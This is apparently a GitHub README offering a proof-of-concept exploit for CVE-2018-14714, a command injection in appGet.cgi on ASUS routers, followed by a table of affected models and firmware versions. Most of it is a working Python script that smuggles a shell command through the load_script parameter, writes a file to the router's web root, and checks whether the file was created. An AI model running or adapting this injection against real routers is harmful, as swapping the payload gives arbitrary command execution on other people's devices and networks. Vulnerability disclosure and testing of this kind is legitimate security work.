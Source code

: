 # CVE-2018-14714-POC
> Apr 25 2020, Altin Thartori, github.com/tin-z

---

## Vulnerability Details ##
System command injection in appGet.cgi on ASUS RT-AC3200 version 3.0.0.4.382.50010 allows attackers to execute system commands via the "load_script" URL parameter

References For CVE-2018-14714 :
 * [https://blog.securityevaluators.com/asus-routers-overflow-with-vulnerabilities-b111bc1c8eb8](https://blog.securityevaluators.com/asus-routers-overflow-with-vulnerabilities-b111bc1c8eb8)


### POC ###

```
#!/usr/bin/env python3
import socket
import sys
import time

HOST = sys.argv[1]
PORT = 80
if len(sys.argv) > 2 :
  PORT = int(sys.argv[2])


def header(cookie_expected=False):
  buff = ""
  buff += "Host: {}:{}\r\n".format(HOST, PORT)
  buff += "User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko\r\n"
  buff += "Referer: http://{}:{}/\r\n".format(HOST, PORT)
  buff += "Accept: application/json, text/javascript, */*; q=0.01\r\n"
  buff += "Accept-Language: en-US,en;q=0.5\r\n"
  buff += "Accept-Encoding: gzip, deflate\r\n"
  buff += "X-Requested-With: XMLHttpRequest\r\n"
  if cookie_expected :
    cookie = "asus_token=AAAAAAAAAAA"
    buff += "Cookie: {}\r\n".format(cookie)
  buff += "Connection: close\r\n"
  buff += "\r\n"
  return buff


def req1(cookie_expected=False):
  buff = ""
  buff += "GET /appGet.cgi?hook=load_script(\"../bin/echo%20%26%26%20touch%20/www/emptyFile.asp\") HTTP/1.1\r\n"
  buff += header(cookie_expected)
  return buff


def req2(cookie_expected=False):
  buff = ""
  buff += "GET /emptyFile.asp HTTP/1.1\r\n"
  buff += header(cookie_expected)
  return buff


try :
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((HOST, PORT))
  s.send(req1().encode())
  time.sleep(2)
  body = s.recv(4096).decode()
  print(body)
  s.send(req2().encode())
  time.sleep(2)
  body = s.recv(4096).decode()
  if " 200 OK" not in body :
    print("[x] Good, target isn't vulnerable")
  else :
    print("[+] Target is vulnerable")
  s.close()
  print("Done")
except Exception as ex:
  print(ex.args[0])

```

### more details ###
```
Table 1. Routers vulnerable version

| Model                   | Version                   | date 
-------------------------------------------------------------------
 RT-AC1200G+              | Version 3.0.0.4.382.51129 | 2019/04/03
 RT-AC58U                 | Version 3.0.0.4.380.8347  | 2018/07/20
 RT-AC1300G+              | Version 3.0.0.4.380.8347  | 2018/07/20
 RT-AC87U                 | Version 3.0.0.4.382.50702 | 2018/07/18
 RT-AC5300                | Version 3.0.0.4.384.21140 | 2018/07/10
 ROG Rapture GT-AC5300    | Version 3.0.0.4.384.21140 | 2018/07/10
 RT-AC86U                 | Version 3.0.0.4.384.21140 | 2018/07/10
 RT-N18U                  | Version 3.0.0.4.382.50624 | 2018/06/12
 RT-AC88U                 | Version 3.0.0.4.384.21045 | 2018/06/01
 RT-AC3100                | Version 3.0.0.4.384.21045 | 2018/06/01
 RT-ACRH17                | Version 3.0.0.4.382.50470 | 2018/05/15
 RT-AC3200                | Version 3.0.0.4.382.50470 | 2018/05/15
 BRT-AC828                | Version 3.0.0.4.380.7432  | 2018/03/28
 RT-N12+ B1               | Version 3.0.0.4.380.10410 | 2018/02/09

 ...                        ,,,                         ,,,

```


